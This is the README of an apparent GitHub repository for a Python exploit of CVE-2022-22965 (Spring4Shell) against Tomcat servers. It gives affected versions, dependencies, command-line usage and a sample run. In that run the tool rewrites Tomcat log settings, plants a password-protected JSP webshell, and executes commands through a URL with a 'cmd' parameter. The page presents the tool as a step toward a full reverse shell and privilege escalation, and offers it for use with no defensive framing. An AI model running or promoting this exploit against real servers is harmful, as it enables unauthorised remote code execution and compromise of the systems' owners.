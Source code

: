 # spring4shell ⭐
a python implementation of CVE-2022-22965 that provides a prompt to the user in the style of an ssh session.  
the script is designed to be easy to understand and execute, with both readability and accessbility - depending on the user's choice. Designed for exploiting the vulnerability on tomcat servers. The fileDateFormat field on the server will be set and unset as part of the script which allows the exploit to be run multiple times. Cleanup may be required.

## the exploit - CVE-2022-22965 ❗
vulnerability found in
the java spring framework before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19 and running on a version of the Java Development Kit greater than or equal to 9.
More info:  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965

## prerequisites ✔
requests module and BeautifulSoup module are required for the exploit to run. these can be installed with:  
`pip3 install bs4`  
`pip3 install requests`  
all other modules are built into python3.
## usage ℹ
the script only requires the url of vulnerable server to run. however there are other flags for ease of access, etc.  
output of --help:
```
usage: spring4shell_v3.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] [-a] [-n] address

spring4shell_v3.py exploits an RCE vulnerability in
applications running spring core java framework.

positional arguments:
  address               ip/hostname, port, sub-directories to the vulnerable spring core framework on tomcat

optional arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        name of the file to create and upload
  -p PASSWORD, --password PASSWORD
                        password to protect the uploaded shell
  -d DIRECTORY, --directory DIRECTORY
                        The upload path for the file
  -a, --accessible      turns off features which may negatively affect screen readers
  -n, --no-colour       removes colour output

example:
        spring4shell_v3.py http://10.10.10.10/
        spring4shell_v3.py http://hostname:8080/ -p 'password123'
        spring4shell_v3.py http://10.10.10.10/subdir/ -a -f 'jsp-shell'

```
***
example output:
```
./spring4shell http://spring-vuln.local

                /           /  |      /         / /                                                            
 ___  ___  ___    ___  ___ (___| ___ (___  ___ ( (                                                             
|___ |   )|   )| |   )|   )    )|___ |   )|___)| |                                                             
 __/ |__/ |    | |  / |__/    /  __/ |  / |__  | |                                                             
     |                __/                                                                                      
CVE-2022-22965.
[i] attempting to change tomcat log variables.
[+] log variables set successfully.
[+] attempting to change tomcat log location variables.
[+] log successfully modified.
[i] waiting for tomcat changes.
[i] sending the webshell.
[i] resetting the log variables.
[i] shell location:
[i] http://spring-vuln.local/20df2b10c787d5ae.jsp?pwd=bd72c5e8&cmd=whoami
[i] or run commands here. type 'exit' to quit.
spring4shell:service@spring-vuln.local $ whoami
service

spring4shell:service@spring-vuln.local $
```
## limitations ⚠
it goes without saying that the script does not provide the user with a full shell, but designed as a platform for achieving a full reverse shell, privesc, etc, on the target.  
The script attempts to harvest the user/service running the vulnerable server so that it can be used as part of the pseudo command prompt in the program, though this is not always reliable.
## notes 📝
the script was mainly an exercise in python scripting for a single exploit with both readability and accessibility in mind. designed for ease of use and understandability. attempts to handle common exceptions.
## credits 👍
https://skerritt.blog/a11y/ - accessibility implementation.
